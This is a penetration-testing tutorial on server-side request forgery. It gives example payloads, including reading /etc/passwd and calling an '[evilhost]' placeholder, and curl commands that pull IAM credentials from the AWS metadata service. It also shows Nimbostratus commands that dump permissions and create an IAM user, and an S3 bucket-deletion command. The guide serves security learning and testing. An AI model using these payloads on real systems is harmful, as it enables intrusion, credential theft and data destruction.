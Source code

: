 # Server-side request forgery

Server-side request forgery \(SSRF\) exploits the trusted relationship between a web server and other backend systems which are not normally accessible to an attacker \(e.g. because of firewalls or application rules\). They are particularly dangerous in cloud infrastructure like AWS, because SSRF allows an attacker to query internal services like [Amazon's metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for credentials and other sensitive data.

## Techniques

### Basic

Generally, you'll be looking for poorly-sanitized parameters which accept URLs, either in `GET` or `POST` requests. Less well-known locations for SSRF include: 

* HTTP Referer header
* Partial URLs in requests \(assembled server-side\)
* [SSRF via XXE](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)

In the examples below, `localhost` is used in the URL to access data and services which are only accessible via the local network.

Example `GET` request with a vulnerable open redirect:

```text
http://[host]/page?url=http://localhost/api/getuser/id/1
```

Example `POST` request with a similarly unsanitized URL parameter:

```text
POST /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

url=http://localhost:1234
```

Some SSRF attacks will return a response that you can see on the vulnerable website, but others may be [blind](https://portswigger.net/web-security/ssrf/blind).

You can also test protocols other than HTTP:

```text
http://[host]/page.php?url=file:///etc/passwd
http://[host]/page.php?url=dict://[evilhost]:1234/
http://[host]/page.php?url=sftp://[evilhost]:1234/
http://[host]/page.php?url=ldap://localhost:1234/%0astats%0aquit
```

### Attacking AWS with SSRF

Amazon's AWS has an internal metadata service which can be queried from any instance. Attackers can use SSRF vulnerabilities to retrieve instance information and in some cases make changes to the infrastructure. [Amazon's CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-instances.html) performs a similar function.

There are two metadata standards for the AWS API - the newest one requires you to generate a short-term token before issuing commands. However, the older non-token version does not seem to be going away, so you could simply use `curl http://169.254.169.254/whatever` to get the same data.

The following command from [Amazon's metadata documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) allows you to generate a 6-hour token, save it in a variable and display the top-level metadata items:

```text
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```

The top-level metadata items will look something like this: 

```text
ami-id
ami-launch-index
...
public-keys/
security-groups
```

From there, you can make calls to the API to view each of the metadata items in detail. 

For example, the following command lets you view startup scripts for the instance, which may reveal credentials or paths to sensitive S3 buckets:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data/
```

To view roles for the instance:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Once you have a role name, you can request credentials for that role: 

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/SomeRole

{
  "Code" : "Success",
  "LastUpdated" : "2019-12-03T18:08:16Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "V...",
  "Token" : "SomeBase64==",
  "Expiration" : "2019-12-04T00:17:43Z"
}
```

At this point you may want to consider automated AWS metadata enumeration tools like [Nimbostratus](https://andresriancho.github.io/nimbostratus/) to determine the permissions available to a role:

```bash
sudo python nimbostratus dump-permissions --access-key=ASIA... --secret-key=V...
```

You can also attempt to create a new user, as a proof-of-concept:

```bash
sudo python nimbostratus create-iam-user --access-key=ASIA... --secret-key=p...
```

#### Enumerating S3 buckets

The [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3.html) can be used to poke around connected S3 buckets. Some useful commands:

```text
aws s3 mb s3://bucket-name            # create a bucket
aws s3 ls                             # list buckets
aws s3 ls s3://bucket-name            # list things in a bucket
aws s3 rb s3://bucket-name --force    # delete bucket + contents
```

## Further reading

* [SSRF: Web Security Academy](https://portswigger.net/web-security/ssrf)
* [SSRF: types and exploits](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
* [SSRF and the CapitalOne breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [Nimbostratus: tools for fingerprinting and exploiting Amazon](https://andresriancho.github.io/nimbostratus/)
* [Pacu: Amazon exploitation framework](https://github.com/RhinoSecurityLabs/pacu)
* [SSRF payloads for many cloud providers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

